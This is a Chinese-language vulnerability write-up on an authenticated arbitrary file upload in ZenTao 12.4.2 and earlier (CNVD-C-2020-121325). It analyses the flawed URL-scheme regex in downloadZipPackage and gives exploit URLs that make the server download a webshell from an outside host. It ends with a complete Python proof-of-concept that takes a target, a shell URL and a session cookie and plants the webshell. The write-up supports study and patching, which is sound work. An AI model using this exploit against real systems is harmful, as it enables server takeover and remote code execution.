 # 禅道 12.4.2 后台任意文件上传漏洞 CNVD-C-2020-121325

## 漏洞描述

百度云安全团队监测到禅道官方发布了文件上传漏洞的风险通告，该漏洞编号为CNVD-C-2020-121325，漏洞影响禅道<=12.4.2版本。登陆管理后台的恶意攻击者可以通过fopen/fread/fwrite方法读取或上传任意文件，成功利用此漏洞可以读取目标系统敏感文件或获得系统管理权限。我们对漏洞进行了复现和分析，由于需要登录后台才可以利用，实际风险相对较低，建议受影响的禅道用户尽快升级到最新版。

## 漏洞影响

```
禅道 <= 12.4.2版本
```

## 环境搭建

百度下12.4.2的禅道环境按步骤安装下载即可

[禅道官方网站](https://www.zentao.net/)

![](./images/202202162310834.png)

调用接口查询版本信息

```plain
http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```

![](./images/202202162310134.png)



## 漏洞复现

漏洞触发需要后台权限

根据漏洞描述查看修改后的代码片段

![](./images/202202162310790.png)

**修改前**

```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(preg_match('/^https?\:\/\//', $decodeLink)) return false;

    return parent::downloadZipPackage($version, $link);
}
```

**修改后**

```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(!preg_match('/^https?\:\/\//', $decodeLink)) return false;

    $file      = basename($link);
    $extension = substr($file, strrpos($file, '.') + 1);
    if(strpos(",{$this->config->file->allowed},", ",{$extension},") === false) return false;

    return parent::downloadZipPackage($version, $link);
}
```

这里传入的参数为版本和link地址，然后base64解码，正则判断是否为**http**或**https**协议，这里的正则过滤并不完整，所以可以绕过用于下载恶意文件

![](./images/202202162310974.png)

可以大写**http**或请求**FTP**来绕过正则

![](./images/202202162310000.png)

![](./images/202202162310460.png)

跟进一下**parent::downloadZipPackage**这个方法，跟着来到**zentao\module\client\model.php**文件中

![](./images/202202162311682.png)

```php
public function downloadZipPackage($version, $link)
    {
        ignore_user_abort(true);
        set_time_limit(0);
        if(empty($version) || empty($link)) return false;
        $dir  = "data/client/" . $version . '/';
        $link = helper::safe64Decode($link);
        $file = basename($link);
        if(!is_dir($this->app->wwwRoot . $dir))
        {
            mkdir($this->app->wwwRoot . $dir, 0755, true);
        }
        if(!is_dir($this->app->wwwRoot . $dir)) return false;
        if(file_exists($this->app->wwwRoot . $dir . $file))
        {
            return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
        }
        ob_clean();
        ob_end_flush();

        $local  = fopen($this->app->wwwRoot . $dir . $file, 'w');
        $remote = fopen($link, 'rb');
        if($remote === false) return false;
        while(!feof($remote))
        {
            $buffer = fread($remote, 4096);
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```

可以简单看到这里获取link传入的文件名，通过**fopen**打开该文件，写入禅道目录**www/data/client/version**中

查看一下有没有调用这个方法的地方

![](./images/202202162311411.png)

找到了**download**方法调用了这个漏洞点，所以我们有两种下载恶意文件的方法

```plain
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```

首先先上传一个恶意文件，可以是FTP也可以是HTTP

例如我上传的文件URL为[**http://peiqi.tech/SHELL.php**](http://peiqi.tech/SHELL.php)

```plain
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

请求地址则为

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

![](./images/202202162311474.png)

下载的目录地址为**zentaopms\www\data\client\1**

目录为version名称

![](./images/202202162311107.png)

成功上传webshell

![](./images/202202162311177.png)

## 漏洞POC

- POC使用需要拥有后台Cookie

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')
    print('+  \033[34mVersion: zentao version <= 12.4.2                                 \033[0m')
    print('+  \033[36m使用格式: python3 CNVD-C-2020-121325.py                             \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mShell       >>> http://xxx.xxx.xxx.xxx/shell.php(恶意文件地址)       \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=version_url, timeout=20, headers=headers)
        version = json.loads(response.text)['version']
        print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

    except Exception as e:
        print("\033[31m[x] 获取版本失败 \033[0m", e)


def POC_2(target_url, shell_url, zentaosid):
    options = shell_url.split("://")
    if options[0] == "http":
        shell_url = "HTTP://" + options[1]
    elif options[0] == "ftp":
        shell_url = "ftp://" + options[1]
    else:
        print("\033[31m[x] 请使用正确的请求地址 \033[0m")
        sys.exit(0)

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":"zentaosid={}".format(zentaosid)
    }

    shell_url_base = str((base64.b64encode(shell_url.encode('utf-8'))),'utf-8')
    vuln_url = target_url + "/www/index.php?m=client&f=download&version=test&link={}".format(shell_url_base)
    print("\033[32m[o] 请求漏洞url：{}\033[0m".format(vuln_url))

    try:
        response = requests.get(url=vuln_url, timeout=20, headers=headers)
        if "保存成功" in response.text:
            print("\033[32m[o] 成功写入Webshell，URL地址为：{}/www/data/client/test/Webshell_name.php\033[0m".format(target_url))
        else:
            print("\033[31m[x] 恶意文件下载失败 \033[0m")
    except:
        print("\033[31m[x] 恶意文件下载失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    shell_url  = str(input("\033[35mShell >>> \033[0m"))
    zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url, shell_url, zentaosid)
```

![](./images/202202162311483.png)